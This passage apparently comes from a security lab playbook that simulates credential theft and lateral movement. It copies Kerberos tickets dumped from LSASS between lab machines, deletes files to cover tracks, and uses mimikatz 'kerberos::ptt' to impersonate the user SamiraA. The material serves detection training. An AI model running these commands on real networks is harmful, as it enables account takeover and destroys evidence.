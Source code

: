 That will execute and export the tickets found in the LSASS.exe process and place them in the current directory, on AdminPC.

We now need to copy the tickets back over to VictimPC, but since we are only interested (in this example) SamiraA's tickets, execute the following:

``` cmd
xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
```

![Export harvested credentials from AdminPC back to VictimPC](media/playbook-escalation-export_tickets2.png)

Let's clean up our tracks on AdminPC by deleting our files.

``` cmd
rmdir \\adminpc\c$\temp /s /q
```

> [!Note]
> More sophisticated attackers will not touch disk when executing arbitrary code on a machine after gaining administrative privileges on it.

Now, on our VictimPC, we have these harvested tickets in our **c:\temp\tickets** folder:

![C:\temp\tickets is our exported mimikatz output from AdminPC](media/playbook-escalation-export_tickets4.png)

With the tickets locally on VictimPC, it's finally time to become SamiraA by "Passing the Ticket".

#### Mimikatz Kerberos::ptt

1. From  the location of **Mimikatz** on the filesystem, open a new elevated command prompt, and execute the following:

``` cmd
mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”
```
